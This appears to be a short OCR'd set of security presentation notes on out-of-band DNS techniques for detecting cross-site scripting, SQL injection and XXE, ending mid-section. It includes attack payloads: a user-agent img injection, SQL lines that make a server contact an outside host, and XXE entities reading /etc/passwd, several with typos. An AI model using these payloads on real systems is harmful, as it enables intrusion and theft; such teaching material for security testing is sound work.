 All requests to *.somesite.com go to its DNS server.



### Cross-site Scripting in Logs

Cross-site scripting occurs when HTML runs in somebody else's browser.

For example, you can set the user-agent to `<img src="http://somesite.com/img.jpg">` and then watch the DNS server.

1. HTTP Request is sent to a vulnerable server.
2. HTML is returned.
3. DNS request is sent.
4. NXDOMAIN = "host not found"

So:

1. A packet capture will look completely innocent.
2. We aren't directly connecting off the network so firewalls will never know.

We can tell when a service wants to make a connection, without the connection succeeding, and without the service even attempting to make the connection.



### SQL Injection

Two SQL queries that should cause a DNS lookup:

```
EXEC sp_addlinkedserver 'somsite.com'. N'A';
```

and

```
SELECT 1 INTO OUTFILE "\\cba.skullseclabs.org\C$";
```

Results: data theft, shell access, arbitrary read.


### XXE

XXE: returns to XML external entity attacks and lets you include files from the filesystem.

```
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;></foo>
```

And also files from remote servers:

```
<!ENTITY xxe SYSTEM "http://www.google.ca">]>
<foo>&xee;</foo>
```

### Finding XXE

Grab a resource from a domain:
